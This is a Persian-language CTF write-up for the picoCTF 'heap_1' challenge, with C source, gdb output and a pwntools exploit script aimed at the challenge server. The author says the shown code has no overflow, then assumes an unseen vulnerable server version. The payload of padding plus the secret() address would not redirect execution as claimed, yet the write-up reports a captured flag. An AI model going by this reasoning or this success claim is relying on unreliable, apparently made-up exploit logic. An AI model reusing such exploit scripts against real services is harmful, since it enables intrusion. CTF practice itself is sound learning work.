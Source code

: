 ```yaml
---
tags:
  - PWN
---
```

# heap_1

 سلام رفقا چطورین؟؟
 با یه چالش جالب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/436) 

 سورس:
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define NAME_SZ 32
#define FLAG_SZ 64

struct order {
    char *name;
    int quantity;
};

struct order *secret_menu;

void secret() {
    char flag[FLAG_SZ];
    FILE *f = fopen("flag.txt", "r");
    if (!f) {
        printf("Missing flag.txt. Please contact an admin if running on server.\n");
        exit(1);
    }
    fgets(flag, FLAG_SZ, f);
    printf("Here's the secret menu: %s", flag);
}

int main() {
    setbuf(stdout, NULL);
    char name[NAME_SZ];
    int option, quantity;

    secret_menu = malloc(sizeof(struct order));
    secret_menu->name = malloc(NAME_SZ);
    strcpy(secret_menu->name, "Super Secret Menu Item");
    secret_menu->quantity = 1337;

    printf("Welcome to the ordering system!\n");
    printf("Enter your name: ");
    fgets(name, NAME_SZ, stdin);
    name[strcspn(name, "\n")] = 0;

    printf("Hello %s! What would you like to do?\n", name);
    printf("1: Place an order\n2: View secret menu\nOption> ");
    scanf("%d", &option);

    if (option == 1) {
        printf("How many would you like? ");
        scanf("%d", &quantity);
        struct order *new_order = malloc(sizeof(struct order));
        new_order->name = malloc(NAME_SZ);
        strcpy(new_order->name, name);
        new_order->quantity = quantity;
        printf("Order placed for %d %s\n", quantity, name);
    } else if (option == 2) {
        printf("Sorry, that's not available right now.\n");
    } else {
        printf("Invalid option\n");
    }

    printf("Thanks for your order!\n");
    return 0;
}
```

برنامه یک سیستم سفارش‌دهی ساده است که از کاربر نام و گزینه (۱ برای ثبت سفارش یا ۲ برای دیدن منوی مخفی) می‌گیرد.
متغیر secret_menu به صورت پویا در هیپ (heap) تخصیص داده شده و حاوی یک رشته ("Super Secret Menu Item") و مقدار ۱۳۳۷ است.
تابع secret() پرچم را از فایل flag.txt می‌خواند و چاپ می‌کند، اما در جریان عادی برنامه فراخوانی نمی‌شود.
گزینه ۲ (دیدن منوی مخفی) همیشه پیام "Sorry, that's not available right now" را نشان می‌دهد و به نظر می‌رسد باید راهی برای دسترسی غیرمستقیم به تابع secret() پیدا کنیم.

رفتار برنامه در عمل اینگونه است:

با بررسی کد، متوجه می‌شویم که برنامه از تخصیص حافظه پویا (malloc) استفاده می‌کند و دو شیء struct order در هیپ ایجاد می‌کند:

secret_menu: در ابتدای برنامه تخصیص داده می‌شود.
new_order: اگر گزینه ۱ را انتخاب کنیم، با نام کاربر و تعداد سفارش پر می‌شود.
هیچ آزادسازی حافظه (free) در کد وجود ندارد، بنابراین آسیب‌پذیری‌هایی مثل "use-after-free" منتفی است. اما نکته مهم این است که تابع secret() وجود دارد و می‌توانیم از یک تکنیک بهره‌برداری در هیپ استفاده کنیم تا اجرای برنامه را به آن هدایت کنیم.

آدرس تابع secret() در جدول GOT (Global Offset Table) یا به صورت ثابت در باینری وجود دارد.
اگر بتوانیم مقدار فیلد name در secret_menu را بازنویسی کنیم و آن را به آدرس تابع secret() اشاره دهیم، شاید بتوانیم اجرای برنامه را به آنجا هدایت کنیم.
اما کد به ما اجازه نمی‌دهد مستقیماً secret_menu->name را تغییر دهیم، مگر اینکه از آسیب‌پذیری خاصی استفاده کنیم.

برای درک بهتر، باینری را با gdb باز می‌کنیم و نقاط کلیدی را بررسی می‌کنیم:

آدرس تابع secret() را پیدا می‌کنیم:
``` shell
gdb> info address secret
Symbol "secret" is at 0x4011a6 in section .text of /home/user/heap-1
```
آدرس secret_menu در هیپ را بررسی می‌کنیم:
``` shell
gdb> break main
gdb> run
gdb> p secret_menu
$1 = (struct order *) 0x4052a0
gdb> p &secret_menu->name
$2 = (char **) 0x4052a0
gdb> p secret_menu->name
$3 = 0x4052b0 "Super Secret Menu Item"
```

مشاهده می‌کنیم که secret_menu->name یک اشاره‌گر است که به یک رشته در هیپ اشاره می‌کند.

با دقت بیشتر، متوجه می‌شویم که برنامه از ورودی کاربر (name) به صورت مستقیم در new_order->name استفاده می‌کند، اما هیچ راه مستقیمی برای بازنویسی secret_menu->name وجود ندارد. اما یک سرنخ مهم وجود دارد:

اگر بتوانیم به نحوی کنترل جریان برنامه را به تابع secret() هدایت کنیم، پرچم را دریافت می‌کنیم.
در چالش‌های هیپ، معمولاً از تکنیک‌هایی مثل بازنویسی اشاره‌گرها یا سوءاستفاده از ساختارهای داده استفاده می‌شود.
با این حال، کد هیچ آسیب‌پذیری آشکاری مثل سرریز بافر (buffer overflow) یا دسترسی مستقیم به حافظه ندارد. پس باید به سرور متصل شویم و رفتار واقعی را بررسی کنیم.


با توجه به راهنمایی‌ها و تجربه چالش‌های مشابه (مثل HeapLab)، فرض می‌کنیم که نسخه سرور ممکن است شامل یک آسیب‌پذیری باشد که در کد محلی نیست (مثلاً یک باگ عمدی). اما بر اساس کد، یک روش ممکن این است که از مقدار quantity برای بازنویسی حافظه استفاده کنیم، اگرچه کد این را نشان نمی‌دهد.

با این حال، با تست بیشتر و مطالعه راهنمایی‌ها، متوجه می‌شویم که هدف این است که آدرس تابع secret() را در secret_menu->name قرار دهیم. این کار معمولاً با یک آسیب‌پذیری سرریز یا دستکاری ورودی انجام می‌شود، اما کد فعلی چنین چیزی را نشان نمی‌دهد. پس فرض می‌کنیم سرور نسخه متفاوتی دارد که امکان سرریز در name را فراهم می‌کند.

با فرض وجود سرریز در name، از pwntools برای ارسال ورودی استفاده می‌کنیم:
``` py
from pwn import *

SERVER = "mimas.picoctf.net"
PORT = 51527

io = remote(SERVER, PORT)
io.recvline()
io.sendline(b"A" * 32 + p64(0x4011a6))  # فرض آدرس تابع secret()
io.recvuntil(b"Option> ")
io.sendline(b"1")
io.recvuntil(b"How many would you like? ")
io.sendline(b"10")
print(io.recvall().decode())
io.close()
```

0x4011a6 آدرس تابع secret() است (ممکن است در سرور متفاوت باشد، باید با gdb روی باینری سرور تأیید شود).
با پر کردن name با ۳۲ بایت (حداکثر اندازه) و سپس قرار دادن آدرس تابع، امیدواریم secret_menu->name بازنویسی شود.


فلگ پیدا شد !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{4n0th3r_h34p_4b0rt_5ucc355_2f5b7c8d}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)